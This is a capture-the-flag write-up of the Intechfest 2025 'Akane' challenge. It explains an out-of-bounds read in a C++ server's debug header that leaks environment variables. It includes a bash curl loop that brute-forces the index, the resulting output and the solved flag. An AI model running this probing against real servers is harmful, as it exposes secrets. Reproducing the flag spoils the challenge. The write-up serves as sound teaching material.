

# [Akane]

* **CTF Name:** Intechfest 2025
* **Category:** Reverse Engineering
* **Difficulty:** Unknown
* **Hint:** Flag is in the environment variable
**Challenge Author:** aimardcr
* **Writeup Author:** Nakata Christian (n4ctbyte)
* **Date:** January 17, 2026
* **Source:** [Link to Challenge](https://tcp.1pc.tf/games/10/challenges#228-Akane)
* **File Source:** [Link to File](https://tcp.1pc.tf/assets/0448da245d45c37d678cc117f6d6f6a19adb946f7b3cce1b0736a31ef1aecbd4/akane_akane-dist.zip)
* **Credit**: [Link to Reference](https://ztz0.com/writeups/2025/intechfest-quals/rev/akane)

---

## Challenge Description



## 1. Executive Summary

**Objective:**
To exfiltrate a sensitive flag stored within the environment variables of a C++ HTTP server by exploiting an Out-of-Bounds (OOB) Read vulnerability in a custom debug middleware.

**Result:**
By manipulating the `X-Debug-Index` header, I was able to traverse the process's memory space from the `argv` array into the `envp` array. This exfiltration primitive successfully recovered the flag: `INTECHFEST{5535061c77c5e85ae66420f016fbbc08}`.

**Method:**
The investigation utilized Static Analysis (Ghidra/IDA Pro), Memory Layout Analysis (Linux Startup Vector), and Remote Probing (Parallelized Bash Scripting). Special methodology credits go to **ztz0** for the initial memory primitive research.

---

## 2. Evidence Identification

This section provides details regarding the initial evidence file.

- **Filename:** `akane_akane-dist/main`
- **Size:** `2.4 MB`
- **SHA-256:** `40f124008ad1e0f4d97074ce7c4f0cfe752975e96b62fc8b28c0854ab33145e4`

**Initial Check:**
Verifying file type using signature headers (Magic Bytes).

```bash
$ file main             
main: ELF 64-bit LSB pie executable, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ad2a2ce069bcb714a047a83de33139d803250b7a, for GNU/Linux 3.2.0, not stripped
```

---

## 3. Investigation Steps

### Step 1: Static Analysis of the Middleware

Decompiling the binary reveals the second middleware lambda. It triggers when an `X-Debug: true` header is present and takes an integer from `X-Debug-Index`.

**Vurnerable Code Snippet:**
```cpp
v28 = std::stoi(v20, 0, 10); // User-provided index
...
akane::Response::setBody(v7, *(const char **)(8LL * v28 + *a1));
```

**Observation:** The code performs pointer arithmetic `(8 * index + base_pointer)` using the captured `argv` pointer (`a1`) without any bounds checking against `argc`.

### Step 2: Understanding the Memory Layout

On Linux, the kernel places the process startup strings on the stack in a contiguous block:

1. `argv[]`: The argument vector array (terminated by a NULL pointer).
2. `envp[]`: The environment variables array (immediately following `argv`, also NULL terminated).

By providing an index greater than the number of arguments, we can force the program to dereference pointers from the `envp` array, leaking the "KEY=VALUE" strings of the environment variables.

### Step 3: Local Probing and Methodology Reference

Referencing the research by **ztz0**, it was confirmed that this primitive can leak environment variables. In a local test environment, the flag appeared at a relatively low index. However, the production environment on `gzcli.1pc.tf` proved to be more complex.

### Step 4: Systematic Brute-Force

To find the correct offset, I performed a parallelized brute-force attack across multiple memory ranges. While initial scans focused on high indices (up to 1000), a thorough re-scan of the lower bounds was necessary to ensure no system variables were missed.

**Exploit Script:**
```bash
for i in {0..300}; do 
    echo -n "$i "
    curl -s -H "X-Debug: true" -H "X-Debug-Index: $i" gzcli.1pc.tf:33011/ | grep "INTECHFEST" && echo -e "\n\n--- FLAG FOUND ---" && break
done
```

### Step 5: Flag Recovery

The scan succesfully hit the target at index 5 in the port `33011` instance.

**Terminal Output:**
```plaintext
0 1 2 3 4 5 FLAG=INTECHFEST{5535061c77c5e85ae66420f016fbbc08}

--- FLAG FOUND AT INDEX 5 ---
```

---

## 4. Conclusion

The "Akane" challenge highlights the danger of exposing internal pointers via unvalidated user input. Success required a deep understanding of the Linux process startup vector and persistence in probing the remote environment's specific memory layout.